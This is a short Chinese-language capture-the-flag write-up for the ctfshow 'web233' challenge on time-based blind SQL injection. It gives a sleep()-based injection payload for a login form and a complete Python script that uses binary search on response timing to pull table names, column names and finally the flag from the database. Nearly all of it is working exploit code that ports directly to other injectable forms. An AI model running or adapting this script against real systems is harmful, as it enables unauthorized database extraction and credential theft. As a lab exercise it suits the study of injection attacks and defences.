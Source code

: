 ## web233~时间盲注

时间盲注，

payload:

```
password=1&username=ctfshow' and sleep(5) and '1'='1
```

脚本：

```python
# @Author: yanmie

import requests

url = "http://97240940-d8ac-45e4-92f4-4d4baeb81d18.chall.ctf.show/api/"
# paylaod = "ctfshow' and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},sleep(0.5),1) and '1'='1"
# 得到 banlist,ctfshow_user,flag233333
# paylaod = "ctfshow' and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag233333'),{},1))>{},sleep(0.5),1) and '1'='1"
# 得到  id,flagass233,info
paylaod = "ctfshow' and if(ascii(substr((select group_concat(flagass233) from flag233333),{},1))>{},sleep(0.5),1) and '1'='1"

result = ""
i = 0

while True:
    i += 1
    head = 0
    tail = 127
    while head<tail:
        mid = (head+tail)//2
        data = {
            "password" : 1,
            "username" : paylaod.format(i,mid),
        }
        try:
            response = requests.post(url=url,data=data,timeout=0.5)
            tail = mid
        except Exception as e:
            head = mid+1
    if head == 0:
        print("[+]the result is : ",result)
        break
    result += chr(head)
    print(result)

```

